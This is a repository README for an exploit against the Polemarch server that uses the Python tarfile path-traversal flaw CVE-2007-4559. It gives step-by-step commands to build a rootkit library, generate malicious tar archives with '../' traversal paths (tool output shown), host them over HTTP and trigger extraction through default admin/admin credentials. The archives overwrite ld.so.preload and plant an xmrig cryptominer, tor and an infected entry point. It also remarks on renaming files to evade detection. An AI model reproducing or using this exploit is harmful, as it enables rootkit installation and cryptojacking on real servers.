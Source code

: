 # CVE-2007-4559 - Polemarch exploit 
Full working exploit for Polemarch server https://www.polemarch.org/, using CVE-2007-4559, allowing:

- Injection of a cryptominer for minero 
- Injection of a rootkit


## POC
Proof of concept using https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-4559 
and based on the work from https://www.trellix.com/en-us/about/newsroom/stories/research/tarfile-exploiting-the-world.html.

### Directories to attack
We want to be able to deploy the following files:

- /usr/local/lib
  - -> **rootkit.so**: library to load
- /etc
  - -> **ld.so.preload**: library to load before any other library
- /opt/polemarch/bin
  - -> **polemarchctl**: infected docker entry point
- /usr/bin
  - -> **xmring**: miner
  - -> **tor**: tor

Note: in the real exploit we would change some names to avoid detection.

### Notes
- Binary files MUST have executable permissions
- Tar's can not be deployed twice
- Malware will be placed in an auxiliar folder which will be symlinked to target folder

## Instructions
In order to deploy the malware we will have to set up:

- Polemarch server 
- Generate tar with the malware
- Create server hosting the compromised tar files

### Polemarch server
First, deploy the polemarch server (with vagrant or docker):

```bash
$: docker compose build 
$: docker compose up -d
```

And open the web interface at http://localhost:8080

Or with vagrant:

```bash
$: vagrant up
```

And open the web interface at http://localhost:8085

### Generate tar files
The tar files will be generated in the `poc/tar/` folder.

But first, we need to set up all the files for generating the tar correctly.

1. Copy the binaries to the `poc` folder:

```bash
$: cp cryptominer/tor poc/
$: cp crytominer/xmrig poc/
```

2. Generate the rootkit shared library in the `poc/rootkit` folder:

```bash
$(rootkit): make
```

3. Copy the rootkit shared library to the `poc` folder:

```bash
$: cp rootkit/rootkit.so poc/
```

And then we can generate the tar files:

```bash
# Execute tar files generator
$: python3 tar.py
[*] Creating symlink aaaa -> etc/
[*] Creating symlink bbbb -> usr/local/lib/
[*] Creating symlink cccc -> usr/bin/
[*] Creating symlink dddd -> opt/polemarch/bin/
[*] Changing aaaa to ../../../../../../../../../test/aaaa
[*] Changing bbbb to ../../../../../../../../../test/bbbb
[*] Changing cccc to ../../../../../../../../../test/cccc
[*] Changing dddd to ../../../../../../../../../test/dddd
[*] Changing ld.so.preload to ../../../../../../../../../test/aaaa/ld.so.preload
[*] Changing rootkit.so to ../../../../../../../../../test/bbbb/rootkit.so
[*] Changing tor to ../../../../../../../../../test/cccc/tor
[*] Changing xmrig to ../../../../../../../../../test/cccc/xmrig
[*] Changing polemarchctl to ../../../../../../../../../test/dddd/polemarchctl
[*] Removing symlink aaaa
[*] Removing symlink bbbb
[*] Removing symlink cccc
[*] Removing symlink dddd
```

This will generate the following tar files:
- `poc/tar/rootkit.tar.gz`: tar file with the malware

### Server hosting the tar files
Host the tar files, for example with python:
```bash
$: cd poc/tar
$: python -m http.server 3005
```

Log in to the polemarch server using default password (admin/admin) and
create a project with a the compromised tar file:

![PROJECT](https://user-images.githubusercontent.com/60936394/206489889-e48ef2fa-3bf8-4df7-b5bf-6c5a6cdec872.png)

"Sync" the project, which will untar untar our compromised tar.

Note: the server hosting IP must be accessible from the docker of virtual machine
